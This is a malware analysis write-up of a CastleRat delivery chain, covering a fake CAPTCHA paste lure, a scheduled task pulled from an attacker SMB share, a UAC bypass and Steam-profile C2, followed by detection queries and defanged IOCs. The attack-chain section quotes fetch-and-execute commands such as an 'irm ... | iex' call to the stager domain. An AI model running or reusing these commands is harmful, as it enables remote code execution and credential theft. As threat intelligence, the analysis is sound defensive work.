

# CastleRat Delivery Chain

*Sanitized: no client-identifying details. IOCs shared for defensive use.*

## TL;DR

- Fake Cloudflare CAPTCHA paste creates a scheduled task from an XML file on the attacker's SMB share
- The task runs a PowerShell stager padded with junk code, which drops a .NET loader
- The loader brings its own Python runtime, bypasses UAC, and runs CastleRat
- C2 is read from a Steam profile name, so the operator rotates it by editing a profile

```
CLASS   : RAT delivery / ClickFix
VECTOR  : Win+R paste posing as a CAPTCHA
IMPLANT : CastleRat / NightShadeC2
C2      : 45.88.106[.]190:4545 (via Steam dead drop)
IMPACT  : Stealer + RAT: browsers, wallets, password managers, screenshots
```

## Attack Chain

```
CAPTCHA paste → cmd.exe
  → cmdkey + schtasks /XML from \\195.10.205[.]171\kxc\full.xml
  → task "Lowks": irm yhofgafjle[.]com | iex
  → junk-padded stager → maestrovsd.exe (.NET loader)
  → bundled Python in C:\ProgramData\<random>\ running install.pyc / melody.pyc
  → ComputerDefaults.exe UAC bypass
  → Steam profile → C2 → CastleRat
```

## What happened

The paste was a one-liner that stored guest creds for an attacker SMB share and created a scheduled task, `Lowks`, from `full.xml` on that share. A trailing `REM I am not a robot - Cloudflare ID: …` made it look like CAPTCHA text. Keeping the task on the share lets the operator change what it runs without touching the lure.

The task pulls a PowerShell stager from `yhofgafjle[.]com`. It's mostly hundreds of lines of dead code to dilute AMSI, with one real function that downloads `maestrovsd.exe`, a ~150KB .NET loader. The loader then fetches full signed Python runtimes (3.9 and 3.13) plus `install.pyc` and `melody.pyc`, so the process tree shows a trusted `pythonw.exe` running attacker bytecode. Elevation is the usual `ms-settings` registry hijack with `ComputerDefaults.exe`.

## The Steam dead drop

This is the interesting part. The implant doesn't hardcode its C2. It fetches a Steam Community profile and reads the C2 straight out of the profile name, a plain `ip:port` with no encoding.



Here it resolved to `45.88.106[.]190:4545`, with a backup at `8.3.0[.]253`. Steam traffic rarely gets blocked in most environments, and swapping infrastructure is just editing a profile. Config extraction also gave an RC4 key that decrypts two more in-memory stages (~5MB and ~15MB). The Python is PyArmor-protected, so static analysis of the `.pyc` files went nowhere.

Once it's up, it's a full stealer: Chrome, Edge and Firefox data, a long list of crypto wallets and wallet extensions, 1Password and NordPass directories, VPN configs, FTP clients, and screenshots.

## How I know

- **The task came from the share.** The pasted command survived in endpoint telemetry, with `cmdkey`, `schtasks /XML` and the UNC path in one command line. High confidence. The lure page itself wasn't preserved.
- **The stager is padding plus one function.** I read the script served from the stager domain: dead variables, no-op functions, and a single real download-and-run function. High. The variable names look randomized per deployment, so don't hunt on them.
- **Python runs from `ProgramData`.** The execution trace shows signed `pythonw.exe` from two random `C:\ProgramData\` folders (Python 3.9 and 3.13) running `install.pyc` and `melody.pyc`. High.
- **UAC bypass via `ComputerDefaults.exe`.** `pythonw.exe` spawned `ComputerDefaults.exe` at High integrity, which fits the `ms-settings` handler hijack. High on the process chain. I treated the registry rewrite as part of the technique rather than something I observed on its own.
- **Family is CastleRat / NightShadeC2.** The sandbox verdict named both, and YARA hits on process dumps tagged both. That means the same codebase or a close fork. Moderate: this rests on those hits and infrastructure overlap, not a code comparison.

## Detection

Written for Defender XDR Advanced Hunting. They also run in Sentinel where the Defender XDR connector streams the table (`Timestamp` exists in both).

```kql
// CastleRat: scheduled task created from an XML file on a remote SMB share
// Status: untested
DeviceProcessEvents
| where FileName =~ "schtasks.exe"
| where ProcessCommandLine has "/create" and ProcessCommandLine has "/xml"
| where ProcessCommandLine matches regex @'(?i)/xml\s+"?\\\\[^\\]+\\'
| project Timestamp, DeviceName, AccountName, ProcessCommandLine,
          InitiatingProcessFileName, InitiatingProcessCommandLine
```

```kql
// CastleRat: ComputerDefaults.exe launched by pythonw.exe running out of ProgramData
// Status: untested
DeviceProcessEvents
| where FileName =~ "ComputerDefaults.exe"
| where InitiatingProcessFileName =~ "pythonw.exe"
| where InitiatingProcessFolderPath startswith @"C:\ProgramData\"
| project Timestamp, DeviceName, AccountName, ProcessIntegrityLevel,
          InitiatingProcessFolderPath, InitiatingProcessCommandLine
```

- `cmdkey /add:<ip>` followed by `schtasks /create /xml` in the same command line is a strong pair even without the UNC match.
- A write to `...\Classes\ms-settings\Shell\Open\command` in `DeviceRegistryEvents`, followed by `ComputerDefaults.exe`, is the generic form of the UAC bypass.

## ATT&CK

| ID | Technique | Where |
|----|-----------|-------|
| T1204.004 | User Execution: Malicious Copy and Paste | CAPTCHA paste |
| T1053.005 | Scheduled Task/Job: Scheduled Task | `Lowks` task from the SMB XML |
| T1059.001 | Command and Scripting Interpreter: PowerShell | Stager |
| T1027 | Obfuscated Files or Information | Junk-padded stager, PyArmor |
| T1548.002 | Abuse Elevation Control Mechanism: Bypass User Account Control | `ComputerDefaults.exe` |
| T1555.003 | Credentials from Password Stores: Credentials from Web Browsers | Stealer |
| T1113 | Screen Capture | Stealer |
| T1102.001 | Web Service: Dead Drop Resolver | Steam profile |
| T1573.001 | Encrypted Channel: Symmetric Cryptography | RC4-decrypted stages |

## IOCs

### Network

```
195.10.205[.]171                             SMB staging (cmdkey target)
yhofgafjle[.]com                             PowerShell stager
162.33.177[.]16                              Payload host
adamcold[.]com                               Payload host
212.43.154[.]198:23814                       Initial C2
45.88.106[.]190:4545                         Resolved C2
8.3.0[.]253                                  Backup C2
steamcommunity[.]com/id/dpmorin49sdiw302fw   Dead drop
nicushka[.]com                               Profile name shown in the screenshot (not the C2 value)
```

### Hashes

```
maestrovsd.exe  e25534efbab99f08ca802c6d3974c2ff7c47ddd6e6ed71a84a94c2fddd7de4e2
install.pyc     b953bb0acb76848f889909256d67d01d44cc45d83c8bfc3421783ac0a79688fc
melody.pyc      91919832f20d8fb78bab82844a430ecbe02a07df3f317316a8c34f54e3bb45c2
```

### Host

```
Scheduled task "Lowks" (XML from \\195.10.205[.]171\kxc\full.xml)
C:\ProgramData\5171NWNrWQ\
C:\ProgramData\92WKzFYLqB\
C:\Windows\Temp\TrHtWFGyRY.exe
%LOCALAPPDATA%\NiceNickAlliceRachelCoach*
%LOCALAPPDATA%\StreamEtheriumLife*
RC4 key: Ymbjo9tV4hdp2Lt0
```
